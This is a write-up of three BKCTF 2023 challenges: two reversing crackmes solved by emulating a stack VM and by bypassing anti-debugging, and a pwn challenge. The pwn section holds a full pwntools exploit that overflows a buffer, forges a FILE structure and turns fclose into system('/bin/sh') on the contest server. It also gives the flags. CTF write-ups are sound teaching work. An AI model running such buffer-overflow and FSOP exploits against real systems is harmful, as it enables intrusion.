





# BKCTF 2023

<style>
img {
    box-shadow: rgba(0, 0, 0, 0.35) 0px 5px 15px;
    border-radius: 6px;
    display: block; 
    margin: 0 auto 15px;
}
</style>


BKCTF was the first CTF I attended on-site. It was hosted by BKSEC, a club at Hanoi University of Science and Technology (HUST), a leading engineering school in Vietnam. HUST is the dream of many students across the country. I remember BKSEC because I know some very skilled peoples such as chung96vn, lanleft, and hacmao.

## rev/BabyStack (Hard)


* **Given files:** [BabyStack.zip](https://drive.google.com/file/d/1p_QX3MQqotXrE7KahZwiGN5Zlm30yxue/view?usp=sharing) (password: **cookiehanhoan**)
* **Difficulty:** Hard
* **Description:** Stack up to the moon. Flag format: `BKSEC{}`


### 0x00 My opinion

In my opinion, this challenge is not very hard. If you have a bit of experience with StackVM-style problems, you will find it quite easy. I will try to explain every small step so beginners can follow along. Happy hacking...

### 0x01 Overview & Clean code

The challenge gives us a 64-bit PE file named `StackVM.exe` with more than 300 lines of pseudocode, mostly variable declarations and assignments.

At a glance, we can see the program initializes a series of bytecode for the VM like this:


Next, the program reads your input into `Buffer` and checks whether its length is exactly 20.

```c
fgets(Buffer, 0x15, v6);
do
{
    Buffer[++v4];
}
while ( Buffer[v4] );

if ( v4 != 0x14 )
{
    v7 = sub_140001000(std::cout, "Not enough length");
    std::ostream::operator<<(v7, sub_140001260);
    exit(0);
}
```

We should redefine the sizes of the `bytecodes[]` and `Buffer[]` arrays to make the code cleaner.

Set `Buffer[]` to 20 bytes and rename it to `input[]`.


and set the `bytecodes[]` array to 400 bytes.


> Why did I calculate the size as 400 bytes?
>
> Because bytecodes starts at `v24 [rsp+60h]` and ends at `v131 [rsp+1E8h]`. So, 0x1E8 - 0x60 + 8 = 400.

Okay, the program is a bit shorter now. Looking at the code below, we can see it uses a vtable. It is a table of functions when the program needs a function, it jumps to the corresponding entry in that table and calls it.



I will create a struct for the vtable with a size of 40 bytes, which matches the size of `v19`. Double-click `vtable`, select all the functions, right-click, and choose **Create struct ...**, name it `struct_vtable`. I'll keep the field names as they are for now and rename them later when the analysis is more detailed.


In StackVM challenges, almost everything happens on a single stack. Two things are essential:
1. `stack_base`: the base address of the stack
2. `stack_esp`: the top-of-stack pointer

From the pseudocode, I'm quite sure `v19[4]` is `stack_base` and `v19[3]` is `stack_esp`, `v19[1]` and `v19[2]` are still unclear, so I won't define them yet. Next, create a `struct_vm` struct like this:


And cast the first field as a `*struct_vtable` (the one we defined above).

Right-click `v19`, choose **Convert to Struct ...**, and select `struct_vm` to apply the new structure to `v19`.

### 0x02 VM Analysis 

We can see that the `input` is loaded into the `bytecodes[]` array as follows:

```c
bytecodes[29] = input[0];
bytecodes[28] = input[1];
bytecodes[79] = input[2];
bytecodes[78] = input[3];
bytecodes[117] = input[4];
bytecodes[116] = input[5];
bytecodes[155] = input[6];
bytecodes[154] = input[7];
bytecodes[193] = input[8];
bytecodes[192] = input[9];
bytecodes[231] = input[10];
bytecodes[230] = input[11];
bytecodes[269] = input[12];
bytecodes[268] = input[13];
bytecodes[307] = input[14];
bytecodes[306] = input[15];
bytecodes[345] = input[16];
bytecodes[344] = input[17];
bytecodes[383] = input[18];
bytecodes[382] = input[19];
```

If you look closely, the `bytecodes` that hold the input appear in adjacent pairs. So it's very likely the program processes the `input` two bytes at a time.

The main processing routine is here:

```c
do 
{
    v10 = bytecodes[idx];
    if ( bytecodes[idx + 1] == 6 )
    {
        instruction_sz = 4i64;
        HIDWORD(ptr_vm) = bytecodes[idx + 1];
        LOBYTE(ptr_vm) = bytecodes[idx];
        v12 = ptr_vm;
        LOWORD(v20) = bytecodes[idx + 3] + (bytecodes[idx + 2] << 8);
        v13 = v20;
    }
    else
    {
        HIDWORD(v21) = bytecodes[idx + 1];
        instruction_sz = 2i64;
        LOBYTE(v21) = bytecodes[idx];
        v12 = v21;
        LOWORD(v22) = 0;
        v13 = v22;
    }

    *(_DWORD *)&input[8] = v13;
    vtable = v3->vtable;
    total_bytecode += instruction_sz;
    *(_QWORD *)input = v12;
    ((void (__fastcall *)(struct_vm *, char *))vtable->___7stackVM__6B@)(v3, input);
    idx += instruction_sz;
}
while ( total_bytecode < 0x18C );
```
Summary of the code above:

If `[idx + 1] == 6`:
- The instruction is 4 bytes long, from `[idx]` to `[idx + 3]`.
- The value is the combination of `[idx + 2]` and `[idx + 3]`.
- It’s handled by the `PUSH` function.

If `[idx + 1] != 6`:
- The instruction is 2 bytes long, from `[idx]` to `[idx + 1]`.
- Based on `[idx + 1]`, there are 8 different handler functions to call.
    1. CMP = 0
    2. XOR = 1
    3. ADD = 2
    4. SUB = 3
    5. SHL = 4
    6. SHR = 5
    7. POP = 7
    8. AND = 8

Below is an example of how I renamed and re-typed the `PUSH` function.

```c
__int64 __fastcall PUSH(struct_vm *a1, char a2, __int16 value)
{
    __int64 result; // rax
    __int64 stack_esp; // r9

    result = a1->stack_base;
    stack_esp = a1->stack_esp;
    if ( a2 == 1 )
    {
        *(result + stack_esp + 1) = value;
        a1->stack_esp += 2i64;
    }
    else
    {
        *(result + stack_esp + 1) = value;
        ++a1->stack_esp;
    }

    return result;
}
```

### 0x03 VM Emulator

After understanding how it works, I extracted all the values from the `bytecodes[]` array and wrote a small Python script to see what operations the program performs.

```python
bytecodes = [0x00, 0x06, 0x00, 0x01, 0x01, 0x06, 0x0C, 0x0D, 0x01, 0x06, 
    0x00, 0x08, 0x01, 0x05, 0x01, 0x06, 0x22, 0x38, 0x01, 0x06, 
    0xFF, 0x00, 0x01, 0x08, 0x01, 0x02, 0x01, 0x06, 0x62, 0x61, 
    0x01, 0x01, 0x01, 0x06, 0x69, 0x4E, 0x01, 0x00, 0x00, 0x07, 
    0x00, 0x00, 0x01, 0x06, 0x0C, 0x0D, 0x01, 0x06, 0x2D, 0x41, 
    0x01, 0x02, 0x01, 0x06, 0x00, 0x08, 0x01, 0x05, 0x01, 0x06, 
    0x22, 0x38, 0x01, 0x06, 0x55, 0x22, 0x01, 0x01, 0x01, 0x06, 
    0xFF, 0x00, 0x01, 0x08, 0x01, 0x02, 0x01, 0x06, 0x64, 0x63, 
    0x01, 0x01, 0x01, 0x06, 0x32, 0x6A, 0x01, 0x00, 0x00, 0x07, 
    0x00, 0x00, 0x01, 0x06, 0x49, 0x30, 0x01, 0x06, 0x00, 0x08, 
    0x01, 0x05, 0x01, 0x06, 0x3E, 0x5E, 0x01, 0x06, 0xFF, 0x00, 
    0x01, 0x08, 0x01, 0x02, 0x01, 0x06, 0x66, 0x65, 0x01, 0x01, 
    0x01, 0x06, 0x45, 0x0A, 0x01, 0x00, 0x00, 0x07, 0x00, 0x00, 
    0x01, 0x06, 0x3B, 0x20, 0x01, 0x06, 0x00, 0x08, 0x01, 0x05, 
    0x01, 0x06, 0x6B, 0x2D, 0x01, 0x06, 0xFF, 0x00, 0x01, 0x08, 
    0x01, 0x02, 0x01, 0x06, 0x68, 0x67, 0x01, 0x01, 0x01, 0x06, 
    0x5B, 0x78, 0x01, 0x00, 0x00, 0x07, 0x00, 0x00, 0x01, 0x06, 
    0x2B, 0x79, 0x01, 0x06, 0x00, 0x08, 0x01, 0x05, 0x01, 0x06, 
    0x70, 0x41, 0x01, 0x06, 0xFF, 0x00, 0x01, 0x08, 0x01, 0x02, 
    0x01, 0x06, 0x6B, 0x69, 0x01, 0x01, 0x01, 0x06, 0x37, 0x45, 
    0x01, 0x00, 0x00, 0x07, 0x00, 0x00, 0x01, 0x06, 0x78, 0x79, 
    0x01, 0x06, 0x00, 0x08, 0x01, 0x05, 0x01, 0x06, 0x34, 0x41, 
    0x01, 0x06, 0xFF, 0x00, 0x01, 0x08, 0x01, 0x02, 0x01, 0x06, 
    0x6D, 0x6C, 0x01, 0x01, 0x01, 0x06, 0x55, 0x0A, 0x01, 0x00, 
    0x00, 0x07, 0x00, 0x00, 0x01, 0x06, 0x6A, 0x36, 0x01, 0x06, 
    0x00, 0x08, 0x01, 0x05, 0x01, 0x06, 0x2D, 0x01, 0x01, 0x06, 
    0xFF, 0x00, 0x01, 0x08, 0x01, 0x02, 0x01, 0x06, 0x32, 0x31, 
    0x01, 0x01, 0x01, 0x06, 0x58, 0x1E, 0x01, 0x00, 0x00, 0x07, 
    0x00, 0x00, 0x01, 0x06, 0x75, 0x1B, 0x01, 0x06, 0x00, 0x08, 
    0x01, 0x05, 0x01, 0x06, 0x3B, 0x17, 0x01, 0x06, 0xFF, 0x00, 
    0x01, 0x08, 0x01, 0x02, 0x01, 0x06, 0x34, 0x33, 0x01, 0x01, 
    0x01, 0x06, 0x0F, 0x19, 0x01, 0x00, 0x00, 0x07, 0x00, 0x00, 
    0x01, 0x06, 0x77, 0x7C, 0x01, 0x06, 0x00, 0x08, 0x01, 0x05, 
    0x01, 0x06, 0x45, 0x30, 0x01, 0x06, 0xFF, 0x00, 0x01, 0x08, 
    0x01, 0x02, 0x01, 0x06, 0x36, 0x35, 0x01, 0x01, 0x01, 0x06, 
    0x76, 0x03, 0x01, 0x00, 0x00, 0x07, 0x00, 0x00, 0x01, 0x06, 
    0x0F, 0x37, 0x01, 0x06, 0x00, 0x08, 0x01, 0x04, 0x01, 0x06, 
    0x3B, 0x23, 0x01, 0x06, 0x00, 0xFF, 0x01, 0x08, 0x01, 0x02, 
    0x01, 0x06, 0x38, 0x37, 0x01, 0x01, 0x01, 0x06, 0x4A, 0x12, 
    0x01, 0x00, 0x00, 0x07, 0x00, 0x00]

idx = 0 

while (idx < len(bytecodes)): 
    code = bytecodes[idx + 1]
    if (code == 0x06): 
        instruction_sz = 4 
        value = (bytecodes[idx + 2] << 8) | (bytecodes[idx + 3])
        print(f"PUSH {hex(value)}")
        idx += 4 
    else:
        instruction_sz = 2 
        match code:
            case 0x00: 
                print("CMP")
            case 0x01: 
                print("XOR")
            case 0x02: 
                print("ADD")
            case 0x03: 
                print("SUB")
            case 0x04: 
                print("SHL")
            case 0x05: 
                print("SHR")
            case 0x07: 
                print("POP")
            case 0x08: 
                print("AND")                            
        idx += 2
```

I'll start by analyzing a small part of the first results using the input **abcdefghiklm12345678**.

```assembly
PUSH 0x1
PUSH 0xC0D
PUSH 0x8
SHR
PUSH 0x2238
PUSH 0xFF00
AND
ADD
PUSH 0x6261
XOR
PUSH 0x694E
CMP
```

1. `PUSH` 3 numbers 0x1, 0xC0D, 0x8 onto the stack. `ESP` will point to the value `0x8`.
2. `SHR` is shift-right top 2 values on the stack: 0xC0D >> 0x8 = 0xC. `ESP` becomes 0xC.
3. `PUSH` 2 numbers 0x2238 and 0xFF00, then do `AND`. Result: 0x2238 & 0xFF00 = 0x2200.
4. `ADD` the top two values on the stack: 0x2200 + 0xC = 0x220C.
5. `PUSH` 0x6261, which is the first 2 bytes of the `input`.
6. `XOR` the values: 0x220C ^ 0x6261 = 0x406D.
7. `CMP` that result with 0x694E.

The above is just my guess. To verify it, I'll debug and check at the `CMP` function to see if the logic is actually correct.



The result is completely correct.



Since we’ve dumped all the instructions, we could solve the flag by hand. But to save time, I'll set breakpoints at the `XOR` and `CMP` functions to capture the final results.

```python
value = [0x220c, 0x7739, 0x3e49, 0x6b3b, 0x702b, 0x3478, 0x2d6a, 0x3b75, 0x4577, 0x3723]
cipher = [0x694E, 0x326A, 0x450A, 0x5B78, 0x3745, 0x550A, 0x581E, 0xF19, 0x7603, 0x4A12]
flag = "".join([(v ^ c).to_bytes(2, "little").decode("utf8") for v, c in zip(value, cipher)])
```

> **FLAG: BKSEC{C0nGratul4t31}**

## rev/Reality (Medium)


* **Given files:** [reality.zip](https://drive.google.com/file/d/17gZ0uUBLXbd_6fX7woeyqUfaISyBYfac/view?usp=sharing) (password: **cookiehanhoan**)
* **Difficulty:** Medium
* **Description:** A simple reversing challenge... Flag format: `BKSEC{}`


The challenge gives us a PE32 file named `reality.exe`. When I decompile it, IDA doesn’t show any pseudocode. I’ll read the assembly and debug it to understand what the program is doing.


Overall, the program reads the input and, when we debug it, it always jumps into the exception handler block.


In the neighboring block, I see a suspicious string: **BKSEECCCC!!!**. Checking the function `sub_401220()` called there, it’s just XORing the input with that string as the key.

```c
char __fastcall sub_401220(const char *a1, int a2, int a3)
{
    char result; // al
    signed int v5; // esi
    int i; // ecx

    v5 = strlen(a1);
    for ( i = 0; i < a3; ++i )
    {
        result = a1[i % v5];
        *(_BYTE *)(i + a2) ^= result;
    }

    return result;
}
```

I debugged the program and changed `EIP` to point to this block. Below it, there are lots of bytecodes. After using Make Code (in IDA) to disassemble them, I can see they perform very complex transformations.



At `loc_40131F`, there is the instruction

```assembly
jmp short near ptr loc_40131F+1 
```

This means it would loop forever at this point. I realized something was wrong, so I pressed `d` to split everything into individual bytecodes, then pressed `c` to make code again. The result is as follows.



Yeah, now it’s clear. The program checks if we are debugging. If yes, it jumps into that complex calculation block; otherwise, it jumps to `loc_401AD5`.

> Why do I know this is anti-debugging? You can see the answer in the reference below. [stackoverflow](https://stackoverflow.com/questions/14496730/mov-eax-large-fs30h). 

At `loc_401AD5`, the code only assigns values to `cipher[]`. So we just need to take this array and XOR it with the key above to recover the flag.

```python
cipher = [
    0x00, 0x00, 0x00, 0x00, 0x06, 0x38, 0x26, 0x77, 0x30, 0x58, 
    0x7E, 0x42, 0x2A, 0x7F, 0x3F, 0x29, 0x1A, 0x21, 0x36, 0x37, 
    0x1C, 0x55, 0x49, 0x12, 0x30, 0x78, 0x0C, 0x28, 0x30, 0x30, 
    0x37, 0x1C, 0x21, 0x12, 0x7E, 0x52, 0x2D, 0x26, 0x60, 0x1A, 
    0x24, 0x2D, 0x37, 0x72, 0x1C, 0x45, 0x44, 0x43, 0x37, 0x2C, 
    0x6C, 0x7A, 0x38
]
key = [ord(i) for i in "BKSEECCCC!!!"]
flag = "".join([chr(cipher[i] ^ key[i % len(key)]) for i in range(len(cipher))])
print(flag)
```

> **FLAG: BKSEC{e4sy_ch4ll_but_th3r3_must_b3_som3_ant1_debug??}**

<!-- ## rev/Checker


* **Given files:** [checker.zip](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EVfrh8c75apLnhn8Vv_rhBIBD1E3SAbCgdo35RI5QCEx4w?e=gggpRu)
* **Difficulty:** Easy
* **Description:** a checker ran with rice tree. Flag format: `BKSEC{}`


**Solution**

Updating ...  -->

## pwn/File Scanner (Medium)


* **Given files:** [bkctf2023-file-scanner.zip](https://drive.google.com/file/d/1G9l1fvSqiCKvM0n8jt6ZtxoBDbIvStgT/view?usp=sharing) (password: **cookiehanhoan**)
* **Difficulty:** Medium
* **Description:** The most powerful tool maybe the worst :(. Flag format: `BKSEC{}`


### 0x01 Finding the bug



You might get a "permission denied" error even after `chmod +x ./file_scanner`. I fixed it by creating a symlink with the correct, expected name so the loader can find it.

```shell
ln -sf ld-2.23.so ld-linux.so.2
ln -sf libc_32.so.6 libc.so.6 
```


The program generates a 16-byte random value and requires us to enter that exact value.

```c
v3 = time(0);
  srand(v3);
  for ( i = 0; i <= 15; ++i )
    s2[i] = generateRandomHexValue();
  memset(s, 0, sizeof(s));
  printf("Are you Huster? Show me your ID: ");
  custom_read(s);
  n = strlen(s);
  if ( strncmp(s, s2, n) )
  {
    printf("Do you forgot your ID, so badd !!!");
    exit(1);
  }
  puts("Ohh... so you can use the newest tool I just found");
  puts("Please don't break my program T_T\n");
```

We can fully bypass the `strncmp` function by using the input `\n`.



It's clear the author intends us to use a File Structure Attack. In option 4, the program has a buffer overflow (BOF) bug as follows:

```c
puts("oh... I forgot asking your name");
printf("What is your name: ");
__isoc99_scanf("%s", name);
printf("See you soon, %s !!!\n", name);
if ( filePtr )
fclose(filePtr);
exit(1);
```

### 0x02 Exploiting BOF bug

From the `name` variable, we can fully overwrite both `filePtr` and `fileContent`.



My idea is to create a fake file structure, then overwrite `filePtr` so it points to this fake file. Every function in the `vtable` is `system()` from libc, and `fakeFile.flags` points to the string `/bin/sh\x00`. When we call `fclose(filePtr)`, it will actually call `system("/bin/sh")`.



To leak the libc base, we can open `/proc/self/maps` or `/proc/self/syscall`.

### 0x03 Final script 

```python
#!/usr/bin/env python3
from pwn import *
import time 

exe = ELF("./file_scanner_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.23.so")

p = process(exe.path)
p = remote('103.97.125.56', 31480)

context.update(arch='i386', os='linux', log_level='debug', terminal='cmd.exe /c start wsl'.split(), binary=exe)

def GDB():
    gdb.attach(p, gdbscript='''
        b *0x8048C9A
        continue
    ''')

    pause()

# GDB()

def open_file(fileName): 
    p.sendlineafter(b'choice :', b'1')
    p.sendlineafter(b'filename: ', fileName.encode())

def read_file(): 
    p.sendlineafter(b'choice :', b'2')

def write_file():  
    p.sendlineafter(b'choice :', b'3')

def close_file():
    p.sendlineafter(b'choice :', b'4')

p.sendlineafter(b'ID: ', b'') 

open_file('/proc/self/syscall')
read_file()
write_file()

libc_leak = int(p.recvline()[:-1].split()[-1].decode(), 16)
libc.address = libc_leak - 0x1ba549

log.info(f'libc.address: {hex(libc.address)}')

# creat fake file structure
file = FileStructure()
file.flags = b'/bin' 
file._IO_read_ptr = b'/sh\x00'
file._lock = exe.symbols['fileContent'] + 400  
file.vtable = exe.symbols['fileContent'] + 152 

log.info(f'fake file length: {len(bytes(file))}')

payload = b'A' * 32 + p32(0x804b0e0) + p32(0) * 7 + bytes(file) + p32(libc.symbols['system']) * 18

close_file()
p.sendlineafter(b'name: ', payload)

p.interactive()
```

> **FLAG: BKSEC{fSoP_1s_n0t_2_hArd_4_u_1fac8554f8eb55a103be3e34c9cf6940}**
